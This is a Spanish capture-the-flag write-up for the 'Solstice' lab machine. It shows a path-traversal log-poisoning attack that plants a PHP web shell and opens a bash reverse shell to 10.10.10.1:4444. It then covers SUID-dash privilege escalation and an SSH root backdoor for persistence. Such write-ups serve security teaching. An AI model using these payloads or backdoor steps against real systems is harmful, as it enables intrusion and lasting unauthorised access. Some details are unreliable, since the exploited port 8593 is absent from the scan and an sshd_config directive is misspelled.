









# Solstice CTF - Writeup

Este writeup describe la solución del CTF "Solstice", cubriendo las fases de reconocimiento, explotación de vulnerabilidades y escalada de privilegios.

**1. Reconocimiento**

El primer paso es identificar los servicios que se ejecutan en la máquina objetivo. Para ello, se realiza un escaneo de puertos utilizando herramientas como Nmap.

```bash
nmap -sV -p- solstice
```

El escaneo revela los siguientes servicios:

*   Puerto 21: FTP (pyftpdlib 1.5.6)
*   Puerto 22: SSH (OpenSSH 7.9p1 Debian 10+deb10u2)
*   Puerto 25: SMTP (Exim smtpd 4.92)
*   Puerto 80: HTTP (Apache httpd 2.4.38 (Debian))
*   Puerto 139 y 445: Samba (Samba smbd 4.9.5-Debian)
*   Puerto 3128: Proxy HTTP (Squid http proxy 4.6)
*   Puerto 8080: HTTP (Apache httpd 2.4.38 (Debian))
*   Puerto 8888 y 8889: PHP (PHP cli server 5.5 o superior (7.3.14-1))
*   Puerto 65242: FTP (FreeFloat ftpd 1.00)
*   Kernel Linux 4.15 - 5.8

**2. Explotación de Vulnerabilidades**

**2.1. Path Traversal en la Aplicación Web**

La aplicación web que se ejecuta en el puerto 8593 es vulnerable a un ataque de path traversal. Esto permite acceder a archivos arbitrarios en el sistema.

Para explotar esta vulnerabilidad, se utiliza la siguiente URL:

```
http://solstice:8593/index.php?book=../../../../../var/log/apache2/access.log
```



Esta URL permite acceder al archivo de registro de Apache. A continuación, se inyectan logs maliciosos en el archivo de registro para ejecutar comandos en el sistema.

Para entender mejor la inyección de logs maliciosos, es importante saber que el servidor web Apache guarda información sobre cada petición en el archivo `access.log`.  Podemos manipular el User-Agent para insertar código PHP en este archivo.

Para ello, se utiliza la herramienta `curl` para enviar una petición HTTP con un User-Agent malicioso:

```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://solstice
```


Esto inyecta el siguiente código PHP en el archivo de registro:

```php
<?php system($_GET['cmd']); ?>
```

Este código PHP permite ejecutar comandos arbitrarios en el sistema a través del parámetro `cmd`.

A continuación, se utiliza la vulnerabilidad de path traversal para ejecutar el código PHP inyectado:

```
http://solstice:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=id
```



Esto ejecuta el comando `id` en el sistema, mostrando el usuario actual.

Para obtener una shell reversa, se utiliza el siguiente payload:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.1/4444 0>&1'
```

Este payload se codifica en URL:

```
bash%20-c%20%27bash%20-i%20>%26%20%2Fdev%2Ftcp%2F10.10.10.1%2F4444%200>%261%27
```

A continuación, se utiliza la vulnerabilidad de path traversal para ejecutar el payload:

```
http://solstice:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%27bash%20-i%20>%26%20%2Fdev%2Ftcp%2F10.10.10.1%2F4444%200>%261%27
```



Esto establece una shell reversa en la máquina atacante (10.10.10.1 en el puerto 4444).

**3. Escalada de Privilegios**

Una vez dentro del sistema, se busca una forma de escalar privilegios. En este caso, se encuentra un archivo `index.php` que contiene el siguiente código:

```php
<?php echo "Hello";
system("cp /bin/dash /var/tmp/dash ; chmod u+s /var/tmp/dash") ?>
```

Este código copia el binario `dash` a `/var/tmp/dash` y le asigna el bit SUID.

**¿Qué es el bit SUID?**

El bit SUID (Set User ID) es un permiso especial que se puede establecer en un archivo ejecutable. Cuando un archivo con el bit SUID establecido es ejecutado, el proceso se ejecuta con los privilegios del *propietario* del archivo, en lugar de los privilegios del usuario que lo ejecuta.

En este caso, el propietario del archivo `/var/tmp/dash` es `root`. Por lo tanto, cuando cualquier usuario ejecuta `/var/tmp/dash`, el proceso se ejecuta con privilegios de root.

Una vez dentro del sistema se encuentra index.php Se ha insertado el siguiente texto:




Para explotar esta vulnerabilidad, se ejecuta el siguiente comando:

```bash
/var/tmp/dash -p
```

La opción `-p` indica a `dash` que conserve los privilegios del propietario (root). Esto abre una shell con privilegios de root.

**4. Añadir Backdoor**

Para mantener el acceso al sistema, se añade una puerta trasera. En este caso, se modifica el archivo `sshd_config` para permitir el inicio de sesión como root utilizando una clave SSH.

**Pasos para añadir la backdoor SSH:**

1.  **Copiar las claves RSA disponibles en el sistema:**  Las claves SSH suelen estar ubicadas en el directorio `/root/.ssh`. Se copian las claves pública (`id_rsa.pub`) y privada (`id_rsa`) a un lugar seguro en la máquina atacante.  En el archivo `solstice.md` se muestra una PC4img/imagen (PC4img/image-43.png) que indica copiar las claves en `/etc/ssh/`.



2.  **Modificar el archivo `sshd_config`:** El archivo `sshd_config` controla la configuración del servidor SSH. Se deben modificar los siguientes parámetros:

    *   `PermitRootLogin yes`:  Permite el inicio de sesión como root.  **¡Advertencia!** Esto puede ser un riesgo de seguridad si no se implementa correctamente.
    *   `AuthorizedKeyFile /root/.ssh/authorized_keys`:  Especifica la ruta al archivo que contiene las claves públicas autorizadas para el inicio de sesión.

    Se añaden o modifican estas líneas en el archivo `/etc/ssh/sshd_config`.  En el archivo `solstice.md` se muestra una PC4img/imagen (PC4img/image-42.png) de este paso.



3.  **Recargar el servicio SSH:**  Después de modificar el archivo `sshd_config`, es necesario recargar el servicio SSH para aplicar los cambios:

    ```bash
    service ssh reload
    ```

    o

    ```bash
    systemctl reload sshd
    ```

4.  **Conectar al sistema usando la clave SSH:**  Ahora se puede conectar al sistema como root utilizando la clave SSH copiada:

    ```bash
    ssh root@solstice -i clave_solstice
    ```


